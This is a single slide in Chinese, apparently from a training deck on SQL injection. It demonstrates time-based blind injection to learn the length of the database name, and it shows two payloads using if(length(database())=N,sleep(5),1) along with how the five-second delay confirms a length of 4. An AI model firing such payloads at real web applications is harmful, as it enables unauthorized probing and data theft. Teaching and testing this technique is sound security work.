

# 猜解数据库的长度
感受时间
1’and if(length(database())=1,sleep(5),1)#
失败
1’and if(length(database())=4,sleep(5),1)#
加载5秒，成功
长度为4
41
2022/6/11